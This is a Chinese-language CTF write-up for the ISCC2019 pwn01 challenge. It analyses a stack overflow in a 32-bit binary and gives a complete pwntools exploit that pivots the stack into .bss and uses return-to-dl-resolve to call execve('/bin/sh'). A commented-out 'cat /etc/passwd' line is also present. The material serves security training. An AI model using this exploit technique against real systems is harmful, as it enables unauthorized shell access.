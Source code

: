 ## pwn01

首先分析文件

Linux32位程序，开了NX和Partial RELRO

```shell
$ file pwn01
pwn01: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c1f12d4c211267af2646f60f57e1dce2086fd028, not stripped
$ checksec  pwn01
[*] '/mnt/c/workspace/ctf/ISCC2019/PWN/pwn01'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

main函数存在溢出点

![main函数](imgs/main.png)

首先调用read函数，从标准输入中读取至多0xF4240个字节的数据，保存到buf中。其中&buf指向.bss段的起始位置，也就是说我们可以控制bss段上的数据。

然后调用memcpy函数将读取到的数据复制到栈上

最后main函数根据栈上的信息恢复esp和ebp

![main-ass](imgs/main-ass.png)

溢出时会把对应位置的数据破坏掉，导致esp和ebp变成padding的数据，考虑将相应位置的数据换成bss段上的数据。

由于程序的plt表中只有read, memcpy, __libc_start_main这三个函数，以及程序也没有提供其他能利用的函数，所以需要使用return to dl-resolve方法来做这道题，调用libc中的函数来getshell

附上exp

```python
#!/usr/bin/python2
#coding: utf8

from pwn import *
import roputils
import sys

import time

mode = "debug" if len(sys.argv) >0 else "release"

if mode == 'debug':
    session = process("../pwn01")
else:
    session = remote("39.100.87.24", "8101")

bss_start = 0x804A040

#存储栈上的数据
fake_stack_esp = bss_start + 0x200
#放置栈的位置有些要求，因为bss上面就是不可写的text段，所以为了防止程序移动esp到text段，需要向下放
#太往下会导致padding过多，导致我用的socat提示broken pipe
#Though this challenge is using https://github.com/giantbranch/pwn_deploy_chroot
fake_stack_ebp = fake_stack_esp + 0x250

#存储解析符号的结果
fake_resolve_start = bss_start + 0x300

print "bss_start:", hex(bss_start)
print "fake_stack_esp:", hex(fake_stack_esp)
print "fake_stack_ebp:",hex(fake_stack_ebp)
print "fake_resolve_start:", hex(fake_resolve_start)

rop = roputils.ROP("../pwn01")


#篡改栈指针，劫持栈:
payload = "A"*(0x16-0x8) + p32(fake_stack_esp+4) + "BBBB" + p32(fake_stack_ebp)
#padding到fake栈的位置:
payload += "S" * (0x200-len(payload))
#让main函数执行完后调用read函数，将数据写到fake_resolve_start，其中解析符号用的数据的位置为fake_resolve_start + 50
payload += rop.call('read', 0, fake_resolve_start, 100)
#执行完read函数后再去用刚写过去的解析符号用的数据来解析execve的位置
#并调用execve(fake_resolve_start+8, fake_resolve_start, 0)
#即execve("/bin/sh", 指向参数数组的指针, 指向环境数组的指针)
#这里参数无所谓，但必须要有，环境数组的指针为0. 具体为什么需要问出题人怎么魔改的/bin/sh文件
payload += rop.dl_resolve_call(fake_resolve_start + 50, fake_resolve_start+8, fake_resolve_start,0)
#gdb.attach(session, '\n'.join(['b*0x080484ae', 'c', "b*0x08048519", "b*system"]))
if mode != 'debug': time.sleep(1)
session.sendline(payload)

#pause = raw_input("enter to continue...")
#准备execve函数的参数
#evecve的第一个参数a为要执行的文件的位置
#第二个参数b为调用这个文件时传递过去的参数，参数要用一个数组存储，以空指针标识参数的结束。参数b为指向这个参数数组的指针
#第三个参数c为指向传递过去的环境变量数组的指针
#这里先放置了参数数组
payload2 = p32(fake_resolve_start+20)#指向参数字符串
payload2 += p32(0)#空指针标识结束
#然后是可执行文件的路径
payload2 += rop.string("/bin/sh")
payload2 += rop.fill(20, payload2)
#然后是参数字符串
payload2 += rop.string("date")
payload2 += rop.fill(50, payload2)
#用于定位execve函数的数据
payload2 += rop.dl_resolve_data(fake_resolve_start + 50, "execve")
if mode != 'debug': time.sleep(1)
session.sendline(payload2)

#session.sendline("cat /etc/passwd")
session.interactive()
session.close()
```





